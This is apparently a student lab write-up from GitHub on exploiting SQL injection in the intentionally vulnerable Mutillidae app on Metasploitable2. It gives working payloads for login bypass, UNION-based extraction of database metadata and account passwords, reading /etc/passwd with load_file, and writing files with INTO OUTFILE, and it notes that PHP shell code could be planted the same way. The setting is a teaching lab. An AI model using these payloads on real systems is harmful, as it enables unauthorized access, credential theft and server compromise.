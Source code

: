 # sqlinjection
Exploiting SQL Injection vulnerability.

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. 
Identify IP address using ifconfig in Metasploitable2

![ethical1 1](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/6b990826-ffbd-450c-8fa5-9e6331a816b0)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.

Select Multidae from the menu listed as shown above. You will get the page as displayed below:

![ethical2](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/0d0988e8-c3cc-4170-84c8-80e54d9ace4e)

Click on the menu Login/Register and register for an account

![ethical3](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/f17451b1-03b1-455f-8e8f-0b3999866c96)



Click on the link “Please register here”
![ethical4](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/7052031d-08db-4ee8-9155-aa2695e9c341)

Click on “Create Account” to display the following page:
![ethical5](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/f937f002-802d-43d1-9438-d69670c46ffa)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;).
 For the username put “praveen” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![ethical6](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/cf0a18c6-4b8d-47dd-86e1-ed97673e98ff)


Click “Login”. The logged in page will show as below:
![ethical7](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/2286b3dd-f34b-4992-a7dc-bcacc47d85ce)




##Bypassing login field

The username field is vulnerable. Put (praveen’ #) or (praveen’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “praveen.”

Now after logging out you will see the login page. In the login page give praveen’ # . You can see the page now enters into the administrator page as before when giving the password. 

![ethical8](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/372f312d-5a92-4eaf-a003-01dd7f798d9d)


Click the login button and you will see it enter into the administrator page.

![ethical9](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/5f3af20f-9437-4529-af28-0936475dab3e)


## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. 
we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info” 

After logging out, Now choose the menu as shown below:
![ethical10](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/e9f3c972-5993-4f31-8546-270e5340aa1a)


![ethical11](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/f16b12ad-5bf7-4e66-9ff8-a2471375aa12)


![ethical12](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/41734882-32c4-4cc6-8a0a-a0361a33f634)

![ethical13](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/03df604b-345b-4774-a06d-144892f7e3c7)

![ethical14](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/9fc5637f-40dc-4edb-bd6c-8fa3deac5af9)



From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.

![ethical9](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/0716dd68-a805-4d8b-a892-f9687a96273a)


Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:
http://192.168.0.109/mutillidae/index.php?page=user-info.php&username=pavan%27orderby%27&password=pavan24&user-info-php-submit-button=View+Account+Details



After adding the order by 6 into the existing url , the following error statement will be obtained:

![ethical13](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/0f27bbd7-c3c4-494f-bacb-e59528574ee5)




When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![ethical14](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/844e229e-b145-437a-a1c3-c8b8dac938e6)


 As it is having 5 columns the query worked fine and it provides the correct result

![ethical17](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/eed8b292-d49d-4fdc-a65c-de2a267970fc)


Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)


As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

![WhatsApp Image 2024-05-10 at 20 12 13_f5cc629f](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/d4d498ba-2687-4c4b-817f-7e46df5a757f)





The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


![WhatsApp Image 2024-05-10 at 20 12 13_5c5ab4ab](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/2f1640db-4fb3-4e1e-91e2-0afe11b30acf)



The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.





The column names of the accounts is displayed below for the following url:


![WhatsApp Image 2024-05-10 at 20 12 47_5fffdd69](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/b7114103-1e21-42a6-8aaf-1b03598b408f)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).






## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

![WhatsApp Image 2024-05-10 at 20 15 38_8edb5b87](https://github.com/pavankishore-AIDS/sqlinjection/assets/94154941/bcdf89f9-6a28-49a4-beda-74941a31a3cf)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).




## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

